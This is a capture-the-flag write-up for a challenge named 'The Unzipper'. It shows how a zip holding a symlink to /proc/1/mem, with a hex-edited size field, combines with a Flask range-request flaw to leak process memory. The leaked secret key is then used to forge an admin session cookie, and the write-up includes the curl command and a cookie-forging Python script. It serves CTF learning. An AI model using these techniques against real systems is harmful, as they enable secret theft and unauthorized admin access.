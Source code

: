 # The Unzipper

This challenge was just insane and I will not elaboraty on to much detail. Here is how I solved it:

You can't inject anything into the site. You just need to upload Zip files. Everything else is just fake. The `Report the files to admin` button is just bait imo.

The main magic tricks here are: zips, linux file links and and incorrect implementation of `send_from_directory(extraction_dir, filename, as_attachment=True, download_name=filename).make_conditional(request, filename, filesize), 200`.

But lets start:

First we need to create a link to the `/proc/1/mem` file with `ln -s /proc/1/mem True`. It is '1' because it's basically the only process running inside this docker container. We have to use `True` as the file name because of the incorrect impplementation of `send_from_directory`:

```python
def make_conditional(
        self,
        request_or_environ: WSGIEnvironment | Request,
        accept_ranges: bool | str = False,
        complete_length: int | None = None,
    ) -> Response:
```

Here we can see, that originally the `filename` is actually the `accept_ranges` bool. And when setting the filename to `True`, it will accept ranges.

The Zip now has to 'act' as if the symlink inside has the sice of the largest range number. Because of this code:

```python
if file['name'] == filename:
            filesize = file['length']
            break
    return send_from_directory(extraction_dir, filename, as_attachment=True, download_name=filename).make_conditional(request, filename, filesize), 200
```

We can estimate the range by just brute forcing or by running it locally and get a shell into the local version and then running `cat /proc/1/maps`. This will print out the memory regions. I'm not sure in which region the secret key will be inside, so you have to try it a few times in the worst case. For exanoke:

```
578f2000-57c0a000 rw-p 00000000 00:00 0                                  [heap]
f5c40000-f5d00000 rw-p 00000000 00:00 0
f5d00000-f5d9a000 rw-p 00000000 00:00 0
f5d9a000-f5e00000 ---p 00000000 00:00 0
```

This (maybe) needs to be converted to decimal numbers.

Then we need to upload the File `True` inside a zip with `zip -y -r file.zip True`. We can fake the size of the `True` symlink by editing the zip file we created with an HexEdit tool like ImHex. You can get more information about the structure and the byte you have to modify [here](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html). In ImHex it will look like this ![ImHex Size Position](imhex-byte-pos-size.png). `0B` is equal to 11 and the symlink is also 11 in size. Changing it to ![Bigger zip](imhex-byte-pos-size-bigger.png). The symlink in the zip file will appear now as 4GB.

You can now upload your modified zip file and than download the range of the mem with this command:

```bash
curl -G -v -H "Range: bytes=4124581888-4288876544" http://localhost:1337/api/download/e176d74c55424bbc2b4bc52b088146afcfec61005a866446/True --output memout.bin
```

With this we can download the internal memory of the process and therefor extract the Secret key.

When you open it, you can try to look for `Adding some entropy: ` since this is the start of the key. Here is an example screenshot ![Secret key](image.png)

With the secret key, we can generate an admin cookie and go to the `/api/flag` site and receive the flag.

For example with this python program:

```python
from flask import Flask, session
from flask.sessions import SecureCookieSessionInterface
import os

def generate_session_cookie(app, session_data):
    # Use test_request_context to create a request context
    with app.test_request_context('/'):
        # Update the session with the provided data
        session.update(session_data)
        
        # Use the SecureCookieSessionInterface to serialize the session
        session_interface = SecureCookieSessionInterface()
        serializer = session_interface.get_signing_serializer(app)
        
        # Generate the session cookie
        session_cookie = serializer.dumps(dict(session))
        return session_cookie

if __name__ == '__main__':
    # Create a Flask application instance
    app = Flask(__name__)
    
    test = os.urandom(24)
    print("os.urandom(24) = " + test.hex())
    
    # Set your secret key (replace 'your-secret-key' with your actual secret key)
    #secret_key_hex = '416464696e6720736f6d6520656e74726f70793a201930e1b442e6a6c37671bba32a62235eac782bb3cd92f88d'
    secret_key_hex = '416464696E6720736F6D6520656E74726F70793A201B0340EC2947389D385CEE67336F0D3EC5ECED396E9C920A'
    app.secret_key = bytes.fromhex(secret_key_hex)
    # Define the session data you want to store
    session_data = {
        'admin': True,
        # Add more key-value pairs as needed
    }
    
    # Generate the session cookie
    cookie_value = generate_session_cookie(app, session_data)
    
    # Output the session cookie value
    print("Session Cookie Value:", cookie_value)
```

The Flag: `S2G{7h15_CH4113N63_W45_700_D4mn_D1ff1CU17}`
